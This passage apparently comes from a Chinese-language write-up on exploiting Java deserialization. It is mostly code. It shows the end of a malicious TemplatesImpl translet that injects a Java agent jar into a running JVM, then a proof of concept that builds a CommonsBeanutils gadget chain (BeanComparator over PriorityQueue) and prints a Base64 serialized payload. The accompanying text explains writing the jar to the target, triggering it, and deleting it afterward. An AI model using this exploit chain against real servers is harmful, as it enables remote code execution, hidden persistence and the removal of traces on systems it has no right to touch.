 ```java
                    System.out.println("Agent.jar Inject Success !!");
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

可以发现需要目标服务器上有`agent`的jar包，所以真正利用的时候需要先把jar包写入目标系统，然后再触发，然后再删除掉。

产生POC：

```java
import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.List;
import java.util.PriorityQueue;

public class Test {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(bytes));
        //SerializeUtil.unserialize(bytes);

    }
}

```
